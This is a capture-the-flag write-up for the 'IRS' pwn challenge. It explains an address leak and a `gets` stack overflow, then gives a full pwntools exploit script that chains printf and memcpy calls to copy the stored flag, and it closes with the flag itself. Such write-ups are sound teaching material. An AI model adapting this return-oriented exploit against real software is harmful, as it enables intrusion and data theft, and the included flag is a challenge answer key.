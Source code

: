 ## IRS (PWN 100)

by droofe

When running the binary, I started by noticing that Mr. Trumps tax return was already filed. Hm? Lets go ahead and try to open it!

Password protected... okay awesome. After messing around and filing a few tax returns on my own, the program complained after I had made four additional returns, saying "blah blah blah, if this problem persists call us at 0xf7d35678". 

WOW! A free leak already. So, I decided to drop the binary into IDA and see what I was dealing with.

After some analysis, I saw that the binary started off and malloc'ed a space for Donald Trumps tax return and put the flag as the password. Awesome, goal: find the password to his tax return.

### Vulnerability
The vulnerability comes into play if you try to edit your tax return. After editing the tax return, it asks you to confirm, prompting you for [y/n], which is read in by none other than `gets`. Turns out the pointer given above was a pointer to the spot on the stack that holds the malloc'ed address of Trumps Tax return. Using the gets stack control, I used printf to leak that address with my first edit, and then memcpy to move the password to the name field with the second edit.

```python
from pwn import *
from time import sleep

s = 0

def fileReturn(name, password, income, deduc):
	s.sendline("1")
	for item in [name, password, income, deduc]:
		s.recvuntil(": ")
		s.sendline(item)
	garbage = s.recvuntil("!")
	menu = s.recv(1024)

def editReturn(name, password, income, deduc, payload, time=1):
	s.sendline("3")
	for item in [name, password, income, deduc]:
		s.recvuntil(": ")
		s.sendline(item)
	for item in payload:
		s.send(item)
	s.sendline("")
	s.recvuntil("recorded!")
	s.recv(2)

	if time==1:
		return int(s.recvuntil("\n")[:4][::-1].encode('hex'),16)

def getStackAddress():
	s.sendline("1")
	s.recvuntil(": ")
	address = int((s.recvuntil("\n").strip()[2::]),16)
	menu = s.recv(1024)
	return address

#s = process("./irs", env={"LD_LIBRARY_PATH": "."})
s = remote("irs.pwn.republican", 4127)
#e = ELF("./irs")

#raw_input("Waiting...")

menu = s.recv(1024)

fileReturn("edwood", "password1", "100", "100")
fileReturn("edwood", "password2", "100", "100")
fileReturn("edwood", "password3", "100", "100")
fileReturn("edwood", "password4", "100", "100")

stackAddr = getStackAddress()
ebp = stackAddr + 0x30
log.info("Stack address {:x}".format(stackAddr))
log.info("EBP address {:x}".format(ebp))

payload = ['A'*21,
			p32(ebp),
			p32(0x080484D0), #call to printf
			p32(0x08048AFD),  #call to main
			p32(stackAddr),
			]

my_heapaddr = editReturn("edwood", "password1", "100", "100", payload)

their_heapaddr_name = my_heapaddr
their_heapaddr_flag = their_heapaddr_name + 50

log.info("Name at {:x}".format(their_heapaddr_name))
log.info("Flag at {:x}".format(their_heapaddr_flag))

payload = ['A'*21,
			p32(ebp),
			p32(0x08048528),
			p32(0x08048AFD),
			p32(their_heapaddr_name),
			p32(their_heapaddr_flag),
			p32(50)
			]


editReturn("edwood", "password1", "100", "100", payload, time=2)
s.interactive()


# flag{c4n_1_g3t_a_r3fund}
```
